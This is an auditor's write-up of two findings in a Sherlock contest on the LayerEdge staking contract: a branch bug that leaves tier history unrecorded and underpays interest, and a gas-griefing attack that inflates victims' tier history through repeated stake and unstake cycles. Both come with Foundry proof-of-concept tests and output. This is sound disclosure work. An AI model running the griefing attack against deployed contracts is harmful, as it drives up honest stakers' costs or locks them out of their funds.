

# Leaderboard
`Rank 5 / 1156`
<br>


# Audited Code Repo
### [Sherlock: LayerEdge](https://audits.sherlock.xyz/contests/952)
### [Github: LayerEdge](https://github.com/sherlock-audit/2025-05-layeredge)

<br>

# <a id="summaryTable"></a>Bugs Filed & Their Status

| #      | Bug ID          | Name | URL    | Adjudged Status  |
|--------|-----------------|------|:------:|-----------------:|
| ?      | [H-01](#h-01)   | Incorrect interest calculated as staker history not updated inside `_checkBoundariesAndRecord()` | [219](https://audits.sherlock.xyz/contests/952/voting/219) | High |
| ?      | [H-02](#h-02)   | Staker actions can run OOG or become too expensive due to stuffing of tier history by attacker | [265](https://audits.sherlock.xyz/contests/952/voting/265) | Med |

<br>
<br>

## **HIGH-SEVERITY BUGS**
---

### <a id="h-01"></a>[H-01]
## **Incorrect interest calculated as staker history not updated inside `_checkBoundariesAndRecord()`**
#### https://github.com/sherlock-audit/2025-05-layeredge/blob/main/edgen-staking/src/stake/LayerEdgeStaking.sol#L893-L898
<br>

## Summary
Staker receives incorrect tier APY as the logic inside [_checkBoundariesAndRecord()](https://github.com/sherlock-audit/2025-05-layeredge/blob/main/edgen-staking/src/stake/LayerEdgeStaking.sol#L893-L898) is incorrect and ought to be:
```diff
            // Handle case where Tier 2 count stays the same
-           else if (isRemoval) {
+           else if (!isRemoval) {
                _findAndRecordTierChange(new_t1 + new_t2, n);
-           } else if (!isRemoval) {
+           } else if (isRemoval) {
                _findAndRecordTierChange(old_t1 + old_t2, n);
            }
```

## Description
Consider an example case of `isRemoval = false` i.e. staker being added. This would hit the `else if (!isRemoval)` branch and call `_findAndRecordTierChange(old_t1 + old_t2, n)`:

1. Scenario: 24 --> 25 Stakers (Addition)

2. Initial State (24 stakers)
    - **Tier1**: 4 users (ranks 1-4)
    - **Tier2**: 7 users (ranks 5-11) 
    - **Tier3**: 13 users (ranks 12-24)
    - **Larry**: Rank 12 (Tier3)

3. Grace Joins (25th staker)
    - **New boundaries**: Tier1=5, Tier2=7, Tier3=13
    - **Larry**: Still rank 12, but now in Tier2 range (ranks 6-12)

4. The Bug in `_checkBoundariesAndRecord()`
```solidity
// Tier2 count unchanged (old_t2 == new_t2 == 7)
else if (!isRemoval) {
    uint256 crossRank = old_t1 + old_t2;  // 4 + 7 = 11 ❌
    _findAndRecordTierChange(crossRank, n);
}
```
**Problem**: Checks Kevin (rank 11) instead of Larry (rank 12)

5. Result
    - ✅ **Larry functionally promoted** to Tier2
    - ❌ **Larry's promotion NOT recorded** in tier history  
    - ✅ **Kevin correctly stays** in Tier2 (no change needed)

6. Financial Impact
    - **Larry earns**: Tier3 interest (20% APY)
    - **Larry should earn**: Tier2 interest (35% APY)
    - **Loss**: ~42% of entitled rewards

Note that Larry's Tier is shown correctly as 2 since the `stakerCountInTree` is [incremented here](https://github.com/sherlock-audit/2025-05-layeredge/blob/main/edgen-staking/src/stake/LayerEdgeStaking.sol#L705) and hence `getCurrentTier()` returns 2 correctly, but this promotion is not recorded in history. 

The same issue happens upon removal i.e. when Larry is moved from Tier2 to Tier3 - no history is maintained, hence APY isn't tracked correctly.

## Impact
Staker receives incorrect interest as correct APY is not maintained due to absence of entry in the tier history.

## Proofs of Concept
Add these two tests inside `test/stake/TierBoundaryAndInterestTest.t.sol`.

Click to expand:

<details>
<summary>
PoC-1: shows how staker is upgraded from tier3 to tier2 but still gets APY of tier3 
</summary>

```js
    function test_TierHistoryBug_PoC1() public {
        // Create 24 stakers to set up the specific scenario
        address[24] memory stakers;
        
        // Create addresses for 24 stakers
        for (uint256 i = 0; i < 24; i++) {
            stakers[i] = address(uint160(uint256(keccak256(abi.encodePacked("staker", i)))));
            dealToken(stakers[i], MIN_STAKE);
            vm.prank(stakers[i]);
            staking.stake(MIN_STAKE);
        }
        
        // Verify initial state with 24 stakers
        assertEq(staking.stakerCountInTree(), 24, "Should have 24 stakers");
        
        // Check tier distribution for 24 stakers
        (uint256 tier1Count, uint256 tier2Count, uint256 tier3Count) = staking.getTierCounts();
        assertEq(tier1Count, 4, "Should have 4 in Tier1 (24 * 20% = 4.8 -> 4)");
        assertEq(tier2Count, 7, "Should have 7 in Tier2 (24 * 30% = 7.2 -> 7)");
        assertEq(tier3Count, 13, "Should have 13 in Tier3");
        
        // Get the users at key positions before the 25th staker joins
        uint256 rank5JoinId = staking.getCumulativeFrequency(5);   // Eve - will be promoted to Tier1
        uint256 rank11JoinId = staking.getCumulativeFrequency(11); // Kevin - stays in Tier2
        uint256 rank12JoinId = staking.getCumulativeFrequency(12); // Larry - should be promoted to Tier2
        
        address eve = staking.stakerAddress(rank5JoinId);
        address kevin = staking.stakerAddress(rank11JoinId);
        address larry = staking.stakerAddress(rank12JoinId);
        
        console2.log("Before 25th staker:");
        console2.log("Eve (rank 5):", eve, "tier:", uint256(staking.getCurrentTier(eve)));
        console2.log("Kevin (rank 11):", kevin, "tier:", uint256(staking.getCurrentTier(kevin)));
        console2.log("Larry (rank 12):", larry, "tier:", uint256(staking.getCurrentTier(larry)));
        
        // Get tier history lengths before
        uint256 eveHistoryBefore = staking.stakerTierHistoryLength(eve);
        uint256 kevinHistoryBefore = staking.stakerTierHistoryLength(kevin);
        uint256 larryHistoryBefore = staking.stakerTierHistoryLength(larry);
        console2.log("larryHistoryBefore length =", larryHistoryBefore);
        
        // Now add the 25th staker (Grace)
        console2.log("25th staker stakes now...");
        dealToken(grace, MIN_STAKE);
        vm.prank(grace);
        staking.stake(MIN_STAKE);
        
        // Verify new state with 25 stakers
        assertEq(staking.stakerCountInTree(), 25, "Should have 25 stakers");
        
        // Check new tier distribution for 25 stakers
        (tier1Count, tier2Count, tier3Count) = staking.getTierCounts();
        assertEq(tier1Count, 5, "Should have 5 in Tier1 (25 * 20% = 5.0 -> 5)");
        assertEq(tier2Count, 7, "Should have 7 in Tier2 (25 * 30% = 7.5 -> 7)"); // SAME COUNT!
        assertEq(tier3Count, 13, "Should have 13 in Tier3");
        
        console2.log("After 25th staker:");
        console2.log("Eve (rank 5):", eve, "tier:", uint256(staking.getCurrentTier(eve)));
        console2.log("Kevin (rank 11):", kevin, "tier:", uint256(staking.getCurrentTier(kevin)));
        console2.log("Larry (rank 12):", larry, "tier:", uint256(staking.getCurrentTier(larry)));
        
        // Get tier history lengths after
        uint256 eveHistoryAfter = staking.stakerTierHistoryLength(eve);
        uint256 kevinHistoryAfter = staking.stakerTierHistoryLength(kevin);
        uint256 larryHistoryAfter = staking.stakerTierHistoryLength(larry);
        
        // Verify tier changes
        assertEq(uint256(staking.getCurrentTier(eve)), uint256(LayerEdgeStaking.Tier.Tier1), "Eve should be promoted to Tier1");
        assertEq(uint256(staking.getCurrentTier(kevin)), uint256(LayerEdgeStaking.Tier.Tier2), "Kevin should stay in Tier2");
        assertEq(uint256(staking.getCurrentTier(larry)), uint256(LayerEdgeStaking.Tier.Tier2), "Larry should be promoted to Tier2");
        
        // Check tier history updates
        assertTrue(eveHistoryAfter > eveHistoryBefore, "Eve should have tier history update");
        
        // THE BUG: Larry should get a tier history update since he moves from Tier3 to Tier2, but doesn't
        console2.log("Tier history changes:");
        console2.log("Eve history change:", eveHistoryAfter - eveHistoryBefore);
        console2.log("Kevin history change:", kevinHistoryAfter - kevinHistoryBefore);
        console2.log("Larry history change:", larryHistoryAfter - larryHistoryBefore); // bug: 0 instead of 1 !
        
        // bug: Larry's tier history not updated; this assertion should have failed, but passes instead
        assertTrue(larryHistoryAfter == larryHistoryBefore, "Larry should have tier history update for Tier3->Tier2 promotion");
            
        // ========================================
        // Impact on Interest Calculation
        // ========================================
        
        console2.log("\n=== TESTING IMPACT ON INTEREST CALCULATION ===");
        
        // Advance time by 30 days to accrue interest
        vm.warp(block.timestamp + 30 days);
        
        // Calculate what Larry SHOULD earn (Tier2 APY = 35%)
        uint256 expectedTier2Interest = (MIN_STAKE * 35 * PRECISION * 30 days) / (365 days * PRECISION) / 100;
        
        // Calculate what Larry WILL earn (based on his incomplete tier history - Tier3 APY = 20%)
        uint256 expectedTier3Interest = (MIN_STAKE * 20 * PRECISION * 30 days) / (365 days * PRECISION) / 100;
        
        // Get Larry's actual calculated interest
        uint256 larryActualInterest = staking.calculateUnclaimedInterest(larry);
        
        console2.log("Expected Tier2 interest (35% APY):", expectedTier2Interest);
        console2.log("Expected Tier3 interest (20% APY):", expectedTier3Interest);
        console2.log("Larry's actual interest:", larryActualInterest);
        console2.log("Interest difference (loss):", expectedTier2Interest - expectedTier3Interest);
        
        // Get Larry's current tier and APY (should show Tier2/35%)
        (, LayerEdgeStaking.Tier larryCurrentTier, uint256 larryCurrentAPY,) = staking.getUserInfo(larry);
        console2.log("Larry's current tier:", uint256(larryCurrentTier));
        console2.log("Larry's current APY:", larryCurrentAPY/1e18, "%");
        
        // This assertion will PASS
        assertEq(larryActualInterest, expectedTier3Interest, "did not get Tier3 interest incorrectly");
        // This assertion will FAIL, confirming the bug
        assertEq(larryActualInterest, expectedTier2Interest, "BUG: Larry should get Tier2 interest but gets Tier3 due to missing tier history");
    }
```

</details>

<br>

<details>
<summary>
PoC-2: shows how staker's tier history is not maintained while going from tier3 --> tier2 --> tier3 i.e. both in upgrade as well as downgrade  
</summary>

Run this with the `--via-ir` flag to avoid stack too deep error.

```js
    function test_TierHistoryBug_PoC2() public {
        // Create 25 stakers to set up the specific scenario
        address[25] memory stakers;
        
        // Create addresses for 25 stakers
        for (uint256 i = 0; i < 25; i++) {
            stakers[i] = address(uint160(uint256(keccak256(abi.encodePacked("staker", i)))));
            dealToken(stakers[i], MIN_STAKE);
            vm.prank(stakers[i]);
            staking.stake(MIN_STAKE);
        }
        
        // Verify initial state with 25 stakers
        assertEq(staking.stakerCountInTree(), 25, "Should have 25 stakers");
        
        // Check tier distribution for 25 stakers
        (uint256 tier1Count, uint256 tier2Count, uint256 tier3Count) = staking.getTierCounts();
        assertEq(tier1Count, 5, "Should have 5 in Tier1 (25 * 20% = 5.0 -> 5)");
        assertEq(tier2Count, 7, "Should have 7 in Tier2 (25 * 30% = 7.5 -> 7)");
        assertEq(tier3Count, 13, "Should have 13 in Tier3");
        
        // Get the users at key positions before removal
        uint256 rank5JoinId = staking.getCumulativeFrequency(5);   // Eve - will be demoted from Tier1 to Tier2
        uint256 rank11JoinId = staking.getCumulativeFrequency(11); // Kevin - stays in Tier2
        uint256 rank12JoinId = staking.getCumulativeFrequency(12); // Larry - will be demoted from Tier2 to Tier3
        uint256 rank25JoinId = staking.getCumulativeFrequency(25); // Last staker - will be removed
        
        address eve = staking.stakerAddress(rank5JoinId);
        address kevin = staking.stakerAddress(rank11JoinId);
        address larry = staking.stakerAddress(rank12JoinId);
        address lastStaker = staking.stakerAddress(rank25JoinId);
        
        console2.log("Before removal (25 stakers):");
        console2.log("Eve (rank 5):", eve, "tier:", uint256(staking.getCurrentTier(eve)));
        console2.log("Kevin (rank 11):", kevin, "tier:", uint256(staking.getCurrentTier(kevin)));
        console2.log("Larry (rank 12):", larry, "tier:", uint256(staking.getCurrentTier(larry)));
        console2.log("Last staker (rank 25):", lastStaker, "tier:", uint256(staking.getCurrentTier(lastStaker)));
        
        // Get tier history lengths before removal
        uint256 eveHistoryBefore = staking.stakerTierHistoryLength(eve);
        uint256 kevinHistoryBefore = staking.stakerTierHistoryLength(kevin);
        uint256 larryHistoryBefore = staking.stakerTierHistoryLength(larry);
        console2.log("larryHistoryBefore length =", larryHistoryBefore);
        
        // Remove the last staker (25th staker)
        console2.log("Removing 25th staker...");
        vm.prank(lastStaker);
        staking.unstake(MIN_STAKE);

        // Advance time past unstaking window
        vm.warp(block.timestamp + 7 days + 5);
        
        // Complete the unstake to actually remove them
        vm.prank(lastStaker);
        staking.completeUnstake(0);
        
        // Verify new state with 24 stakers
        assertEq(staking.stakerCountInTree(), 24, "Should have 24 stakers after removal");
        
        // Check new tier distribution for 24 stakers
        (tier1Count, tier2Count, tier3Count) = staking.getTierCounts();
        assertEq(tier1Count, 4, "Should have 4 in Tier1 (24 * 20% = 4.8 -> 4)");
        assertEq(tier2Count, 7, "Should have 7 in Tier2 (24 * 30% = 7.2 -> 7)"); // SAME COUNT!
        assertEq(tier3Count, 13, "Should have 13 in Tier3");
        
        console2.log("After removal (24 stakers):");
        console2.log("Eve (rank 5):", eve, "tier:", uint256(staking.getCurrentTier(eve)));
        console2.log("Kevin (rank 11):", kevin, "tier:", uint256(staking.getCurrentTier(kevin)));
        console2.log("Larry (rank 12):", larry, "tier:", uint256(staking.getCurrentTier(larry)));
        
        // Get tier history lengths after removal
        uint256 eveHistoryAfter = staking.stakerTierHistoryLength(eve);
        uint256 kevinHistoryAfter = staking.stakerTierHistoryLength(kevin);
        uint256 larryHistoryAfter = staking.stakerTierHistoryLength(larry);
        
        // Verify tier changes after removal
        assertEq(uint256(staking.getCurrentTier(eve)), uint256(LayerEdgeStaking.Tier.Tier2), "Eve should be demoted to Tier2");
        assertEq(uint256(staking.getCurrentTier(kevin)), uint256(LayerEdgeStaking.Tier.Tier2), "Kevin should stay in Tier2");
        assertEq(uint256(staking.getCurrentTier(larry)), uint256(LayerEdgeStaking.Tier.Tier3), "Larry should be demoted to Tier3");
        
        // Check tier history updates
        assertTrue(eveHistoryAfter > eveHistoryBefore, "Eve should have tier history update for demotion");
        
        // THE BUG: Larry should get a tier history update since he moves from Tier2 to Tier3, but doesn't
        console2.log("Tier history changes:");
        console2.log("Eve history change:", eveHistoryAfter - eveHistoryBefore);
        console2.log("Kevin history change:", kevinHistoryAfter - kevinHistoryBefore);
        console2.log("Larry history change:", larryHistoryAfter - larryHistoryBefore); // bug: 0 instead of 1 !
        
        console2.log("\n=== LARRY'S COMPLETE TIER HISTORY ===");
        uint256 historyLength = staking.stakerTierHistoryLength(larry);
        console2.log("Total history entries:", historyLength);

        for (uint256 i = 0; i < historyLength; i++) {
            (LayerEdgeStaking.Tier from, LayerEdgeStaking.Tier to, uint256 timestamp) = 
                staking.stakerTierHistory(larry, i);
            console2.log("History entry", i);
            console2.log("  From Tier:", uint256(from));
            console2.log("  To Tier:", uint256(to));
            console2.log("  Timestamp:", timestamp);
        }
        console2.log("Current block.timestamp:", block.timestamp);

        // bug: Larry's tier history not updated; this assertion should fail but passes instead
        assertTrue(larryHistoryAfter == larryHistoryBefore, "BUG: Larry's demotion Tier2->Tier3 not recorded in history");
    }
```

</details>

[Back to Top](#summaryTable)
---

### <a id="h-02"></a>[H-02]
## **Staker actions can run OOG or become too expensive due to stuffing of tier history by attacker**
#### https://github.com/sherlock-audit/2025-05-layeredge/blob/main/edgen-staking/src/stake/LayerEdgeStaking.sol#L419
<br>

## Description & Impact
All major functions like `stake()`, `unstake()`, `_claimInterest()`, `compoundInterest()` internally call `_updateInterest() --> calculateUnclaimedInterest()`. 

`calculateUnclaimedInterest()` has two unbounded loops [here](https://github.com/sherlock-audit/2025-05-layeredge/blob/main/edgen-staking/src/stake/LayerEdgeStaking.sol#L419) and [here](https://github.com/sherlock-audit/2025-05-layeredge/blob/main/edgen-staking/src/stake/LayerEdgeStaking.sol#L451):
```js

        // Find the most recent tier event before fromTime
        for (uint256 i = 0; i < userTierHistory.length; i++) {

```
and
```js

        // Then process any subsequent tier changes within our calculation window
        for (uint256 i = relevantStartIndex + 1; i < userTierHistory.length; i++) {

```

An attacker can thus call stake & unstake multiple times to cause promotion/demotion of stakers at tier boundaries and inflating their tier history array. All of this can be done in a single tx. Single or multiple attack accounts can be used.

Now when the honest staker tries to call any of these functions, they encounter either of these two situations:
1. If the `userTierHistory` has been inflated too a high enough size, they run OOG.
2. Or if the `userTierHistory` size is not enough to cause an OOG, they still end up paying a high amount of gas fee. In case the user has set a gas limit, the tx could revert. This is problematic because:
    - For every operation, they now need to pay an exorbitant amount, affecting their future participation in the protocol.
    - Even to claim their existing interest, they now need to see if it's worth paying the increased gas fee. Their interest could well be lesser than it, making the claim unprofitable. ( The increased gas cost is borne from subsequent claims when `relevantStartIndex` grows; refer PoC for exact behaviour )
    - Even unstaking becomes expensive.
All these are lost opportunities or direct fund loss.

Note that although this is a pure griefing attack i.e. the attacker bears the gas cost to mount the attack and does not directly profit, this attack cost is one-time. For the honest user however, once the `userTierHistory` has been hyper inflated, there's no way to shrink it back and hence they are affected for their life time.

## Example Attack
```text
           Before: 6 users                    After: 7 users
┌────────┬────────┬────────────┐   ┌────────┬────────┬────────────┐
│ Tier 1 │ Tier 2 │   Tier 3   │   │ Tier 1 │ Tier 2 │   Tier 3   │
│(1 user)│(1 user)│ (4 users)  │   │(1 user)│(2 user)│ (4 users)  │
└────────┴────────┴────────────┘   └────────┴────────┴────────────┘
   1       2         3  4  5  6      1        2  3      4  5  6  7
                                                 ↑
                                            User #3
                                        moves from Tier 3
                                            to Tier 2
For 6 users:
    - Tier1: 20% of 6 = 1
    - Tier2: 30% of 6 = 1
    - Tier3: Remaining = 4

For 7 users:
    - Tier1: 20% of 7 = 1
    - Tier2: 30% of 7 = 2
    - Tier3: Remaining = 4

```

- Attacker acts as the 7th user.
- Stakes & unstakes multiple times say, 1000 in a single tx.
- Every stake causes user 3 to be promoted and their `userTierHistory` size to be increased by one.
- Every unstake causes user 3 to be demoted and their `userTierHistory` size to be increased by one.

Note that the example shows only user3 being affected but it could be an additional user too who is being promoted from Tier2 to Tier1, thus affecting 2 users in a single attack.
Also, attacker may use multiple accounts (e.g. acting as user 7, 8, 9, 10, 11, 12) in their attack to cause promotion & demotion of multiple users.

## Proof of Concept
Add this file under `test/stake/` and run with `forge test --mc GasGriefingPoC -vv`:

<details>
<summary>Click to expand</summary>

```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

import {Test, console2} from "forge-std/Test.sol";
import {LayerEdgeStaking} from "@src/stake/LayerEdgeStaking.sol";
import {LayerEdgeToken} from "@test/mock/LayerEdgeToken.sol";
import {DeployLayerEdgeStaking} from "@script/DeployLayerEdgeStaking.s.sol";
import {NetworkConfig, HelperConfig} from "@script/HelperConfig.s.sol";

contract GasGriefingPoC is Test {
    LayerEdgeStaking public staking;
    LayerEdgeToken public token;
    HelperConfig public helperConfig;
    DeployLayerEdgeStaking public deployer;

    address public admin;
    address public user1 = makeAddr("user1");
    address public user2 = makeAddr("user2");
    address public user3 = makeAddr("user3");
    address public user4 = makeAddr("user4");
    address public user5 = makeAddr("user5");
    address public user6 = makeAddr("user6");

    uint256 public constant MIN_STAKE = 3000 * 1e18;
    uint256 public constant REWARDS_AMOUNT = 100_000 * 1e18;

    function setUp() public {
        deployer = new DeployLayerEdgeStaking();
        (staking, helperConfig) = deployer.run();

        NetworkConfig memory config = helperConfig.getActiveNetworkConfig();
        token = LayerEdgeToken(config.stakingToken);
        admin = config.owner;

        vm.startPrank(admin);
        token.approve(address(staking), REWARDS_AMOUNT);
        staking.depositRewards(REWARDS_AMOUNT);
        vm.stopPrank();

        address[6] memory users = [user1, user2, user3, user4, user5, user6];
        for (uint256 i = 0; i < users.length; i++) {
            vm.prank(admin);
            token.transfer(users[i], MIN_STAKE * 10);
            
            vm.prank(users[i]);
            token.approve(address(staking), type(uint256).max);
        }
    }

    function test_NormalClaimsGasCost() public {
        console2.log("=== Subsequent Claims Gas Cost Test ===");
        
        // Setup 6 users
        address[6] memory users = [user1, user2, user3, user4, user5, user6];
        for (uint256 i = 0; i < users.length; i++) {
            vm.prank(users[i]);
            staking.stake(MIN_STAKE);
        }
        
        // Let time pass to accumulate interest
        vm.warp(block.timestamp + 30 days);
        
        // === STEP 1: Initial Claim (Normal User) ===
        console2.log("--- STEP 1: Initial Claim (Normal User) ---");
        
        uint256 initialTierChanges = staking.stakerTierHistoryLength(user3);
        console2.log("Initial tier changes:", initialTierChanges);
        
        // First claim - this sets lastClaimTime
        uint256 gasBefore = gasleft();
        vm.prank(user3);
        staking.claimInterest();
        uint256 firstClaimGas = gasBefore - gasleft();
        console2.log("First claim gas:", firstClaimGas);
        
        
        // === STEP 2: Second Claim (No Attack) ===
        console2.log("--- STEP 2: Second Claim ---");
        
        vm.warp(block.timestamp + 30 days); // 30 more days of interest
        
        // This claim will need to process ALL the tier changes that happened
        // between lastClaimTime (after first claim) and now
        gasBefore = gasleft();
        vm.prank(user3);
        staking.claimInterest();
        uint256 secondClaimGas = gasBefore - gasleft();
        console2.log("Second claim gas:", secondClaimGas);
        
        // === STEP 3: Third Claim  ===
        console2.log("--- STEP 3: Third Claim ---");
        
        vm.warp(block.timestamp + 30 days); // Another 30 days
        
        gasBefore = gasleft();
        vm.prank(user3);
        staking.claimInterest();
        uint256 thirdClaimGas = gasBefore - gasleft();
        console2.log("Third claim gas:", thirdClaimGas);
        
        // === ANALYSIS ===
        console2.log("--- DETAILED ANALYSIS ---");
        console2.log("First claim (normal):", firstClaimGas, "gas");
        console2.log("Second claim (no-attack):", secondClaimGas, "gas");
        console2.log("Third claim :", thirdClaimGas, "gas");
        
        if (secondClaimGas > firstClaimGas) {
            uint256 gasIncrease = secondClaimGas - firstClaimGas;
            uint256 multiplier = secondClaimGas / firstClaimGas;
            console2.log("Gas increase on second claim:", gasIncrease);
            console2.log("Gas multiplier:", multiplier, "x");
            
            console2.log("CHECK: Subsequent claims cost significantly more");
        } else {
            console2.log("Second claim gas did not increase significantly");
        }
        
        // Check third claim gas cost
        if (thirdClaimGas > firstClaimGas) {
            console2.log("SUSTAINED COST: Third claim also shows increased gas costs");
        }
    }

    function test_MaliciousClaimsGasCost() public {
        console2.log("=== Subsequent Claims Gas Cost Test ===");
        
        // Setup 6 users
        address[6] memory users = [user1, user2, user3, user4, user5, user6];
        for (uint256 i = 0; i < users.length; i++) {
            vm.prank(users[i]);
            staking.stake(MIN_STAKE);
        }
        
        // Let time pass to accumulate interest
        vm.warp(block.timestamp + 30 days);
        
        // === STEP 1: Initial Claim (Normal User) ===
        console2.log("--- STEP 1: Initial Claim (Normal User) ---");
        
        uint256 initialTierChanges = staking.stakerTierHistoryLength(user3);
        console2.log("Initial tier changes:", initialTierChanges);
        
        // First claim - this sets lastClaimTime
        uint256 gasBefore = gasleft();
        vm.prank(user3);
        staking.claimInterest();
        uint256 firstClaimGas = gasBefore - gasleft();
        console2.log("First claim gas:", firstClaimGas);
        
        // === STEP 2: Executing Griefing Attack ===
        console2.log("--- STEP 2: Executing Griefing Attack ---");
        
        uint256 gasBeforeAttack = gasleft();
        // Create 1000 tier changes
        for (uint256 i = 0; i < 500; i++) {
            address attacker = address(uint160(uint256(keccak256(abi.encodePacked("griefAttack", i)))));
            vm.prank(admin);
            token.transfer(attacker, MIN_STAKE * 2);
            vm.prank(attacker);
            token.approve(address(staking), MIN_STAKE * 2);
            
            vm.prank(attacker);
            staking.stake(MIN_STAKE);
            vm.prank(attacker);
            staking.unstake(MIN_STAKE);
            
            if ((i + 1) % 100 == 0) {
                console2.log("Attack progress:", i + 1, "/500 cycles");
            }
        }
        uint256 gasAfterAttack = gasleft();
        
        uint256 postAttackTierChanges = staking.stakerTierHistoryLength(user3);
        console2.log("Tier changes after attack:", postAttackTierChanges);
        console2.log("New tier changes created:", postAttackTierChanges - initialTierChanges);
        console2.log("Attack gas spent:", gasBeforeAttack - gasAfterAttack);
        
        // === STEP 3: Second Claim (After Attack) ===
        console2.log("--- STEP 3: Second Claim (After Attack) ---");
        
        vm.warp(block.timestamp + 30 days); // 30 more days of interest
        
        // This claim will need to process ALL the tier changes that happened
        // between lastClaimTime (after first claim) and now
        gasBefore = gasleft();
        vm.prank(user3);
        staking.claimInterest();
        uint256 secondClaimGas = gasBefore - gasleft();
        console2.log("Second claim gas (after attack):", secondClaimGas);
        
        // === STEP 4: Third Claim (Sustained Impact) ===
        console2.log("--- STEP 4: Third Claim (Sustained Impact) ---");
        
        vm.warp(block.timestamp + 30 days); // Another 30 days
        
        gasBefore = gasleft();
        vm.prank(user3);
        staking.claimInterest();
        uint256 thirdClaimGas = gasBefore - gasleft();
        console2.log("Third claim gas:", thirdClaimGas);
        
        // === ANALYSIS ===
        console2.log("--- DETAILED ANALYSIS ---");
        console2.log("First claim (normal):", firstClaimGas, "gas");
        console2.log("Second claim (post-attack):", secondClaimGas, "gas");
        console2.log("Third claim (sustained):", thirdClaimGas, "gas");
    }
}
```

</details>

Output:
```js
[PASS] test_NormalClaimsGasCost() (gas: 2546564)
Logs:
  === Subsequent Claims Gas Cost Test ===
  --- STEP 1: Initial Claim (Normal User) ---
  Initial tier changes: 1
  First claim gas: 68291
  --- STEP 2: Second Claim ---
  Second claim gas: 37591
  --- STEP 3: Third Claim ---
  Third claim gas: 37591
  --- DETAILED ANALYSIS ---
  First claim (normal): 68291 gas
  Second claim (no-attack): 37591 gas   ✅ // reasonable
  Third claim : 37591 gas
  Second claim gas did not increase significantly

[PASS] test_MaliciousClaimsGasCost() (gas: 275667936)
Logs:
  === Subsequent Claims Gas Cost Test ===
  --- STEP 1: Initial Claim (Normal User) ---
  Initial tier changes: 1
  First claim gas: 68291
  --- STEP 2: Executing Griefing Attack ---
  Attack progress: 100 /500 cycles
  Attack progress: 200 /500 cycles
  Attack progress: 300 /500 cycles
  Attack progress: 400 /500 cycles
  Attack progress: 500 /500 cycles
  Tier changes after attack: 1001
  New tier changes created: 1000
  Attack gas spent: 319715144   ⬅️ // Attack cost
  --- STEP 3: Second Claim (After Attack) ---

// ⚠️ relevantStartIndex = 1000 here
  Second claim gas (after attack): 842326
  --- STEP 4: Third Claim (Sustained Impact) ---

// ⚠️ relevantStartIndex = 1000 here too
  Third claim gas: 842326
  --- DETAILED ANALYSIS ---
  First claim (normal): 68291 gas
  Second claim (post-attack): 842326 gas
  Third claim (sustained): 842326 gas
```

One can assume prevalent gas price say, 10 gwei and ETH price of `$2000`. So attack cost =  `$ (319715144 * 10 / 1e9 * 2000) = $6400`

And increased cost for user3 for _every claim action_ = `$ (842326 - 37591) * 10 / 1e9 * 2000 = $16` 

## Mitigation
A combination of various approaches could be taken:
1. Allow unstake() only after some cooldown. 
2. Change the accounting approach so that any tier change maintains an updated interest figure. Something similar to usage of index while calculating rewards in many DeFi protocols.
3. Batch interest calculations: Process only if tier change timestamps are unique. This will help ignore tier changes happening at the same timestamp, which do not contribute to any interest APY change.


[Back to Top](#summaryTable)

